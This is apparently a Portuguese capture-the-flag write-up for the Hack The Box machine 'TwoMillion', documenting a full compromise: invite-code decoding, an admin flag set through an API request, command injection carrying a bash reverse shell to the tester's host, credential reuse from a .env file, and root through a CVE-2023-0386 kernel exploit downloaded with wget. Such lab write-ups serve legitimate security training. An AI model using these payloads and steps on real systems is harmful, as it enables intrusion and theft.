# Twomillion

**Difficulty: Easy**

```
IP: 10.129.62.243
```

### nmap
```bash
nmap -p- -v 10.129.62.243

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```bash
nmap -p 22,80 -sV 10.129.62.243

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Ao acessar o serviço http na porta 80, foi possível encontrar o domínio **2million.htb**. Vou adicioná-lo ao /etc/hosts para resolver o domínio.

Já dentro do serviço web, testando as funcionalidades, encontro essa página de invite.


Analisando o page source é possível encontrar informações relevantes.

Endpoint de verificação.

Ao abrir o /js/inviteapi.min.js percebo que o conteúdo está obfuscado, então vou utilizar o beautifier.io para me retornar o código limpo.

Função makeInviteCode() faz um POST para /api/v1/invite/how/to/generate 

Usando o curl para ver o response desse endpoint

```bash
curl -s -X POST http://2million.htb/api/v1/invite/how/to/generate | jq
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```

A response retornou "data" que está encodado por ROT13. É possível descriptografar esse data com uma biblioteca python chamada codecs.

decrypt.py
```bash
import codecs

print(codecs.decode("Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr", "rot13"))
```

```bash
python3 decrypt.py 
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

Agora que tenho outro endpoint, vou ver o que retorna no curl

```bash
curl -s -X POST http://2million.htb/api/v1/invite/generate | jq

{
  "0": 200,
  "success": 1,
  "data": {
    "code": "QUpFV1ktSElMM0QtTkxIVEotNTQwRVc=",
    "format": "encoded"
  }
}
```

Retornou um base64, vou decodar

```bash
echo QUpFV1ktSElMM0QtTkxIVEotNTQwRVc= | base64 -d
AJEWY-HIL3D-NLHTJ-540EW
```

Agora que tenho o código vou fazer o Sign Up


Agora que tenho acesso a plataforma, vou explorar.


Vou fazer o download da vpn e adicionar o edge-eu-free-1.hackthebox.eu no /etc/hosts

```bash
sudo openvpn pdro.ovpn
RESOLVE: Cannot resolve host address: edge-eu-free-1.2million.htb:1337 (Name or service not known)
```

OpenVPN sinalizou um erro. O host na verdade é edge-eu-free-1.2million.htb e não edge-eu-free-1.hackthebox.eu

Também é possível visualizar o host ao ler o arquivo .ovpn
```bash
cat pdro.ovpn 
client
dev tun
proto udp
remote edge-eu-free-1.2million.htb 1337
```

Agora, vou rodar a vpn em outro túnel para nao entrar em conflito com o do htb

```
sudo openvpn --config pdro.ovpn --dev tun1

Connection refused
```

Está me retornando Connection refused. Vou supor que isso seja um rabbit hole e seguir em frente.

Agora que estou autenticado, provavelmente só existe endpoints que funcionam com sessão válida. Vou usar o burp suite e fazer um request testando as rotas de API pelo repeater.


/api/v1 teve retorno, consigo identificar as rotas para endpoints. Vou testar o admin.

```bash
"admin":{
	"GET":{
		"\/api\/v1\/admin\/auth":"Check if user is admin"
	},
```

Request
```bash
GET /api/v1/admin/auth HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:150.0) Gecko/20100101 Firefox/150.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=lkn5uf41f4k39f5blo7qeehon9
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

Response
```bash
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 15 May 2026 05:08:37 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 17

{"message":false}
```

Retornou que eu não sou admin. Agora vou testar esse:

```bash
"PUT":{
	"\/api\/v1\/admin\/settings\/update":"Update user settings"
}
```

Request
```bash
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:150.0) Gecko/20100101 Firefox/150.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=lkn5uf41f4k39f5blo7qeehon9
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

Response
```bash
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 15 May 2026 05:11:40 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 53

{"status":"danger","message":"Invalid content type."}
```

Vou adicionar o Content-Type na request e enviar a request.

Agora o erro mudou o erro, está faltando o email.


Vou adicionar na request
```bash
{
	"email": "pdro@email.com"
}
```


O erro mudou novamente, agora é o is_admin.

Request final:
```bash
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:150.0) Gecko/20100101 Firefox/150.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=lkn5uf41f4k39f5blo7qeehon9
Content-Type: application/json
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 57

{
	"email": "pdro@email.com",
    "is_admin": 1
}
```

Response
```bash
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 15 May 2026 05:25:26 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 40

{
	"id":13,
	"username":"pdro",
	"is_admin":1}
```


Agora vou verificar no /api/v1/admin/auth se realmente virei admin.

Request
```bash
GET /api/v1/admin/auth HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:150.0) Gecko/20100101 Firefox/150.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=lkn5uf41f4k39f5blo7qeehon9
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 2
```

Response
```bash
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 15 May 2026 05:29:11 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 16

{"message":true}
```

Agora vou testar o endpoint admin que faltava /api/v1/admin/vpn/generate

Response
```bash
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 15 May 2026 05:35:21 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 59

{"status":"danger","message":"Missing parameter: username"}
```

E assim eu vou completando o que falta.

```bash
{
"username":"pdro"
}
```

Me retornou a vpn.
Vou testar esse campo para ver se tem command injection.

Vou usar o tcpdump para esperar o ping
```bash
sudo tcpdump -i tun0 icmp
```

```bash
{
"username":"pdro\nping -c 1 <MEU_IP>"
}
```

Command Injection confirmado
```bash
05:44:56.170973 IP 2million.htb > <MEU_IP>: ICMP echo request, id 2, seq 1, length 64
05:44:56.170995 IP <MEU_IP> > 2million.htb: ICMP echo reply, id 2, seq 1, length 64
```

Vou fazer um RCE

```
nc -lvnp 4444
```

```bash
{
"username":"pdro\nbash -c 'bash -i >& /dev/tcp/<MEU_IP>/4444 0>&1'"
}
```

Agora tenho acesso interno

```bash
nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.62.243 51274
bash: cannot set terminal process group (1102): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$
```

Agora vou melhorar o terminal
```bash
www-data@2million:~/html$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@2million:~/html$ ^Z
[1]+  Stopped                 nc -lvnp 4444

stty raw -echo; fg
nc -lvnp 4444

www-data@2million:~/html$ export TERM=xterm
```

#### Fase de exploração interna
```bash
www-data@2million:~/html$ ls -la
-rw-r--r--  1 root root   87 Jun  2  2023 .env
```

```bash
www-data@2million:~/html$ cat .env 
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Com essa descoberta, vou tentar acessar o banco de dados com essas credenciais.
Funcionou!



```
TRX
trx@hackthebox.eu $2y$10$TG6oZ3ow5UZhLlw7MDME5um7j/7Cw1o6BhY8RhHMnrr2ObU3loEMq
```

```
TheCyberGeek
thecybergeek@hackthebox.eu
$2y$10$wATidKUukcOeJRaBpYtOyekSpwkKghaNYr5pjsomZUKAd0wbzw4QK
```

Vou salvar esses hashes em um arquivo para fazer o brute force. Pelo formato 2y no inicio, o identificador é bcrypt.

Vou utilizar o hashcat
```bash
hashcat -m 3200 hashes.txt /opt/rockyou.txt
```

Enquanto isso, vou explorar mais a rede interna.

No /etc/passwd é possível encontrar o user admin, então vou testar a mesma senha para tentar entrar como esse usuário.

```bash
www-data@2million:~/html$ su admin
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:/var/www/html$ whoami
```
Funcionou.

### User flag

Acessando /home/admin é possível encontrar a primeira flag.
```bash
admin@2million:~$ cat user.txt 
6e436c6a1f86ab796e5e4319471fb6da
```

Vou rodar o LinEnum para tentar encontrar alguma coisa.

```bash
python3 -m "http.server"
```

```bash
admin@2million:/tmp$ wget http://<MEU_IP>:8000/LinEnum.sh
```

Achados:
```
/var/mail/admin

Kernel 5.15.70
```

O email entrega o vetor OverlayFS.
```bash
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

Pesquisando kernel 5.15.70 exploit, encontro a CVE-2023-0386

Vou utilizar esse exploit
```bash
git clone https://github.com/sxlmnwb/CVE-2023-0386

cd CVE-2023-0386
make
```

```bash
python3 -m "http.server"
```

```bash
admin@2million:/tmp$ wget http://<MEU_IP>:8000/fuse
admin@2million:/tmp$ wget http://<MEU_IP>:8000/exp
admin@2million:/tmp$ wget http://10.10.17.208:8000/gc

admin@2million:/tmp$ chmod +x exp fuse gc
admin@2million:/tmp$ mkdir -p ovlcap/lower
admin@2million:/tmp$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
```

Vou precisar de outro terminal. Vou entrar como admin, com o user e password que encontrei dentro da .env

```bash
ssh admin@10.129.62.243

admin@2million:/tmp$ cd /tmp
admin@2million:/tmp$ ./exp

root@2million:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
```

### Root flag
```bash
root@2million:/root# cat root.txt 
eb9dfdd3b08b58bc7da6878463657b57
```
